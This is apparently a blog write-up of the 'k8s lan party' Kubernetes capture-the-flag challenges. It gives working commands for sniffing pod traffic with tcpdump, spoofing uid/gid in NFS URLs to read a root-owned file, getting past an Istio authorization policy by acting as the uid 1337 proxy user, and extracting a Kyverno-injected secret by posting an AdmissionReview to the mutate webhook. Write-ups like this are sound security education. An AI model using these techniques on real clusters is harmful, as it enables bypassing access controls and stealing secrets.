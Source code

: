 ```yaml
---
title: k8s lan party
author: ch4ser
date: 2024-03-15 07:34:46
categories:
  - CTF
cover:
  image: 2024-03-26-21-02-36.png
---
```


Long time no CTF~~

## RECON

Just check the environment related to K8s using `env` and reconnoiter internal service using `dnscan`

![recon](recon.png)

This blog is good written [link](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html)

## Finding Neighbours

According to the description, the sidecar container of current pod is sending some information (possibly flag) to remote server. So, the first step is digging the remote server like what we do in the first challenge, which leads me to `reporting-service.k8s-lan-party.svc.cluster.local`.

As we all know, all containers within same pod share one network namespace, which means we can sniff the traffic from our current container.

```sh
tcpdump -i any host reporting-service.k8s-lan-party.svc.cluster.local and tcp -w traffic.pcap
```

and the flag was in the `traffic.pcap`

![neighbours](neighbours.png)

## DATA LEAKAGE

> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based.

At first glance, I thought the data storage is `nfs`, and found the existence of `/efs/flag.txt`. However, there is no enough permission to read it, while I failed to mount the remote storage to local host, so I stopped and didn't have any progress until the end of the game.


By executing `mount`, here we got:

```
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.30.72,local_lock=none,addr=192.168.124.98)
```

Since the remote storage use `nfs4`, we should specify the version when listing it.

```sh
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4
```

try to cat the remote `flag.txt`, but there is no enough permission.

```sh
nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```

![](2024-03-26-20-45-47.png)

However, according to the libnfs document, we could spoof uid and gid by adding parameters to the nfs url and get elevated privileges.

![](2024-03-26-20-52-11.png)

```sh
nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```

![](2024-03-26-20-51-30.png)

## The Beauty and The Ist

> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

The given policy is 

```yml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

The policy in this challenge block `GET` and `POST` requests from namespace `k8s-lan-party`
Find Istio service

```sh
dnscan -subnet 10.100.0.1/16
```

![](2024-03-26-21-10-53.png)

The request to this address will be denied. However, there seems to be user that can bypass the Istio's IPTables rules from hist#2.

`cat /etc/passwd | grep 1337`

And we got user `istio`, According to [ncc report](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) and [Istio Iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables), **the 1337 uid is used to distinguish between traffic originating from proxy vs the applications**, which means we can bypass the policy restriction by switching to user `istio` and send requests, which would be recognized as traffic from istio sidercar proxy.

![](2024-03-26-21-18-32.png)

## Who will guard the guardians?

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

The given policy:

```yml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

Kyverno is designed for policy management. The policy will inject flag into Pod resource created under `sensitive-ns`.

According to GPT, `AdmissionReview` is a kind of API resource used in admission control process. K8s supports two types of admission control webhooks to handle `AdmissionReview`: `ValidatingAdmissionWebhook` and `MutatingAdmissionWebhook`, the latter is called before validating object correctness, it can modify objects in the request, while the former is called after all `MutatingAdmissionWebhook` to check the state of the object for validity but does not modify it.

Obviously, the policy facilitates MutatingAdmissionWebhook to modify object.

Reconnoiter services first:

```
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
```

What if we can utilize the MutatingAdmissionWebhook to steal the secret since we can access to `https://kyverno-svc.kyverno.svc.cluster.local/mutate`? The AdmissionReview requests to this api will be responsed by object modified by the kyverno, which makes a lot sense.

use the following resource to generate `AdmissionReview`

```yml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl
```

```sh
./kube-review create pod.yaml > pod.json
curl -k -X POST \
https://kyverno-svc.kyverno.svc.cluster.local/mutate \
  -H 'content-type: application/json' \
  --data-binary "@pod.json"
```

We got:

```json
{"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"curl-flag","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"kube-review","uid":"ee8332cb-afa6-412e-b60a-641f23d28980"},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"name":"curl-flag","namespace":"sensitive-ns","creationTimestamp":null},"spec":{"containers":[{"name":"curl-container","image":"curlimages/curl","resources":{}}]},"status":{}},"oldObject":null,"dryRun":true,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
```

![](2024-03-26-22-26-59.png)
